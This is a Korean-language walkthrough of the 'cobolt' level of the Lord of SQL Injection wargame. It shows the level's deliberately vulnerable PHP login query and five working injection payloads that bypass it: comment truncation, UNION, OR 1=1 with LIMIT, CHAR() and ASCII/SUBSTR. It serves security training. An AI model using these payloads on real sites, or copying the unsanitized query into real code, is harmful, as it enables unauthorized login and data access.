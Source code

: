 # Lord of SQL Injection No.2 - cobolt

## 문제 출제 의도

SQL Injection을 통해 원하는 값을 select하도록 조작할 수 있는지 확인한다.

## 소스 코드 분석

cobolt 문제의 php 소스 코드는 다음과 같다.
```php
<?php
  include "./config.php"; 
  login_chk();
  dbconnect();
  if(preg_match('/prob|_|\.|\(\)/i', $_GET[id])) exit("No Hack ~_~"); 
  if(preg_match('/prob|_|\.|\(\)/i', $_GET[pw])) exit("No Hack ~_~"); 
  $query = "select id from prob_cobolt where id='{$_GET[id]}' and pw=md5('{$_GET[pw]}')"; 
  echo "<hr>query : <strong>{$query}</strong><hr><br>"; 
  $result = @mysql_fetch_array(mysql_query($query)); 
  if($result['id'] == 'admin') solve("cobolt");
  elseif($result['id']) echo "<h2>Hello {$result['id']}<br>You are not admin :(</h2>"; 
  highlight_file(__FILE__); 
?>
```
-----

```php
  $query = "select id from prob_cobolt where id='{$_GET[id]}' and pw=md5('{$_GET[pw]}')"; 
  echo "<hr>query : <strong>{$query}</strong><hr><br>";
  $result = @mysql_fetch_array(mysql_query($query));
  if($result['id'] == 'admin') solve("cobolt");
  elseif($result['id']) echo "<h2>Hello {$result['id']}<br>You are not admin :(</h2>";
```
* 받은 id와 pw가 직접 쿼리에 들어간다. 이것으로 SQL Injection 공격이 가능하다는 것을 알 수 있다.

* 1번 문제와 거의 동일하며, 문제 풀이가 성공하는 조건은 '데이터베이스에서 받은 id에 "admin"이라는 값이 들어있음'이다.

-----

## Solution

1. admin 문자열 직접 삽입

    ```
    http://los.eagle-jump.org/cobolt_ee003e254d2fe4fa6cc9505f89e44620.php?id=admin'-- -
    ```
    ```sql
    select id from prob_cobolt where id='admin'-- -' and pw=md5('')
    ```

    이는 결국 $result['id']에 'admin'이 들어가도록 하므로 문제가 풀린다.

2. UNION 구문 이용

    ```
    http://los.eagle-jump.org/cobolt_ee003e254d2fe4fa6cc9505f89e44620.php?id=' union select 'admin'-- -
    ```
    ```sql
    select id from prob_cobolt where id='' union select 'admin'-- -' and pw=md5('')
    ```

    이는 결국 $result['id']에 'admin'이 들어가도록 하므로 문제가 풀린다.

3. LIMIT 구문 이용

    ```
    http://los.eagle-jump.org/cobolt_ee003e254d2fe4fa6cc9505f89e44620.php?id=' or 1=1-- -
    ```
    ```sql
    select id from prob_cobolt where id='' or 1=1-- -' and pw=md5('')
    ```

    이는 테이블의 모든 행을 불러오도록 조작하는 SQL Injection이다. 이를 수행하면 다음과 같은 문자열이 응답에 포함된다.

    ```
    Hello rubiya
    You are not admin :(
    ```
    이 문자열로 미루어 보아 테이블에 admin이라는 id를 가진 행이 있을 것임을 추측할 수 있다.

    또한 현재는 테이블의 rubiya라는 id를 가진 첫 번째 행이 들어가지만 $result['id']에 들어가는 행을 하나씩 당겨보는 것을 id가 admin인 행에 도달할 때까지 반복하면 문제가 풀릴 것임을 추측할 수 있다.

    ## LIMIT

    MySQL에는 SELECT절에 LIMIT이라는 구문을 이용하여 반환되는 행을 제한하는 기능이 있다.
    [MySQL Documentation](https://dev.mysql.com/doc/)에서 [SELECT절에 대한 문서](https://dev.mysql.com/doc/refman/5.7/en/select.html)를 찾아보면 다음과 같은 부분을 찾을 수 있다.
    
    ![limit](images/limit.png)

    즉, SELECT 절의 마지막에 LIMIT 1,1 을 붙이면 테이블에서 조건에 맞는(WHERE 구문이 있으면) 행 중 첫 번째 행부터가 아닌 두 번째 행부터 하나의 행만 가져오게 된다.

    ```
    http://los.eagle-jump.org/cobolt_ee003e254d2fe4fa6cc9505f89e44620.php?id=' or 1=1 limit 1,1-- -
    ```
    ```sql
    select id from prob_cobolt where id='' or 1=1 limit 1,1-- -' and pw=md5('')
    ```

    즉 위 SQL Injection은 prob_cobolt 테이블의 2번째 행의 id가 admin이기 때문에 결국 $result['id']에 'admin'이 들어가도록 하므로 문제가 풀린다.

4. CHAR() 함수 및 ASCII 코드 활용

    ```
    http://los.eagle-jump.org/cobolt_ee003e254d2fe4fa6cc9505f89e44620.php?id=' or id=char(97, 100, 109, 105, 110)-- -
    ```
    ```sql
    select id from prob_cobolt where id='' or id=char(97, 100, 109, 105, 110)-- -' and pw=md5('')
    ```

    이는 ASCII에서 10진수 표기를 문자 표기로 바꿔주는 MySQL 함수인 CHAR를 이용하여 id가 admin인 행을 찾아 선택하도록 만든다.
    
    ASCII에서, 'a'=97, 'd'=100, 'm'=109, 'i'=105, 'n'=110이다.
    
    따라서 이는 $result['id']에 'admin'이 들어가도록 하므로 문제가 풀린다.

5. ASCII(), SUBSTR() 함수 및 ASCII 코드 활용

    ```
    http://los.eagle-jump.org/cobolt_ee003e254d2fe4fa6cc9505f89e44620.php?id=' or ascii(substr(id, 1, 1))=97-- -
    ```
    ```sql
    select id from prob_cobolt where id='' or ascii(substr(id, 1, 1))=97-- -' and pw=md5('')
    ```

    이는 ASCII에서 문자 표기자 10진수 표기로 바꿔주는 MySQL 함수인 ASCII를 이용하여 id가 a로 시작하는 행을 찾아 선택하도록 만든다.

    이번에는 운이 좋아 a로 시작하는 첫번째 행이 admin이었지만, 만약 안되면 1번째 글자가 a, 2번째 글자가 d, 3번째 글자가 m, 4번째 글자가 i, 5번째 글자가 n인 행을 찾도록 조작하면 된다.
    
    ASCII에서, 'a'=97이다.
    
    따라서 이는 $result['id']에 'admin'이 들어가도록 하므로 문제가 풀린다.